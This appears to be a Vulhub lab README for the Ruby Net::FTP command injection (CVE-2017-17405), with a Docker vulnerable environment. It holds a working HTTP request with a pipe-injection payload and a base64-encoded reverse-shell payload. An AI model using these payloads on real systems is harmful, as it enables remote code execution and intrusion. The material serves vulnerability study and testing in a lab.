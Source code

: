 # Ruby Net::FTP Module Command Injection (CVE-2017-17405)

[中文版本(Chinese version)](README.zh-cn.md)

Ruby Net::FTP module is a FTP library provided by Ruby core.

Ruby before 2.4.3 allows Net::FTP command injection. `Net::FTP#get`, `getbinaryfile`, `gettextfile`, `put`, `putbinaryfile`, and `puttextfile` use `Kernel#open` to open a local file. If the localfile argument starts with the "|" pipe character, the command following the pipe character is executed. The default value of localfile is `File.basename(remotefile)`, so malicious FTP servers could cause arbitrary command execution.

References:

- <https://blog.heroku.com/identifying-ruby-ftp-cve>
- <https://www.exploit-db.com/exploits/43381>

## Vulnerable environment

Execute following command to start a Ruby 2.4.1 webserver that uses Net::FTP to download FTP file:

```
docker compose up -d
```

After the server is started, a simple webserver is running on `http://your-ip:8080/`. What this server does is that when we visit `http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`, it downloads the file `vulhub.txt` from FTP server `example.com:2121`.

## Exploit

Since this is an FTP client vulnerability, we have to to run a simple FTP server that can be accessed. For example, using Python's pyftpdlib:

```
# intsall pyftpdlib
pip install pyftpdlib

# start a FTP server on `0.0.0.0:2121`
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

Then, use this FTP server address as the *uri* parameter and the payload `|touch${IFS}success.txt` as the *file* parameter in following request:

```
GET /download?uri=ftp://example.com:2121/&file=|touch${IFS}success.txt HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

![](1.png)

Go into the docker container, you can see the `success.txt` has been created successfully:

![](2.png)

Change the payload to `|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'` and get a reverse shell:

![](3.png)
